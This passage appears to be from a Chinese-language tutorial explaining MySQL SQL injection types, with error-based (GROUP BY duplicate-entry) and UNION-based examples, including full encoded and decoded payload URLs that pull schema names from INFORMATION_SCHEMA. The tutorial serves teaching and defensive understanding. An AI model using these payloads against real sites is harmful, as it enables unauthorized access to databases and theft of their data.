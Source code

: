 >攻击者就可以通过这种方式获取到`MySQL`的各类信息。

-------------------------------



 
## `Error-based SQL injection`（报错型注入）

**如果页面能够输出SQL报错信息，则可以从报错信息中获得想要的信息。**

主要特点：即返回页面会存在必要的错误信息，这些必要的错误信息包括到不限于 注入的sql语句的数据库返回结果  

> 典型的就是利用`group by`的`duplicate entry`错误。

例：

``` url
http://xxxxxx.com/view?id=1%20AND%20(SELECT%207506%20FROM(SELECT%20COUNT(*),CONCAT(0x717a707a71,(SELECT%20MID((IFNULL(CAST(schema_name%20AS%20CHAR),0x20)),1,54)%20FROM%20INFORMATION_SCHEMA.SCHEMATA%20LIMIT%202,1),0x7178786271,FLOOR(RAND(0)*2))x%20FROM%20INFORMATION_SCHEMA.CHARACTER_SETS%20GROUP%20BY%20x)a)
```
解码以后
```
http://xxxxxx.com/view?id=1 AND (SELECT 7506 FROM(
    SELECT COUNT(*),
    CONCAT(0x717a707a71,
    (SELECT MID((IFNULL(CAST(schema_name AS CHAR),0x20)),1,54) 
    FROM 
    INFORMATION_SCHEMA.SCHEMATA LIMIT 2,1),
    0x7178786271,FLOOR(RAND(0)*2)) 
    FROM 
    INFORMATION_SCHEMA.CHARACTER_SETS GROUP BY x)a)

```

>在抛出的`SQL`错误中会包含这样的信息：` Duplicate entry 'qzpzqttqxxbq1' for key 'group_key'` 
>
>其中`qzpzq`和`qxxbq`分别是`0x717a707a71`和`0x7178786271`，用这两个字符串包住了`tt`（即数据库名），是为了方便`sql`注入程序从返回的错误内容中提取出信息。

--------------------------------------------








## `UNION query SQL injection`（可联合查询注入）
通过`UNION`查询获取到所有想要的数据，请求返回后输出`SQL`执行后查询到的所有内容。是最快捷的方法

主要特点：可以使用`UNION` 查询 ，并能返回必要的数据

例：

` http://xxxxxx.com/view?id=1 UNION ALL SELECT SCHEMA_NAME, DEFAULT_CHARACTER_SET_NAME FROM INFORMATION_SCHEMA.SCHEMATA`
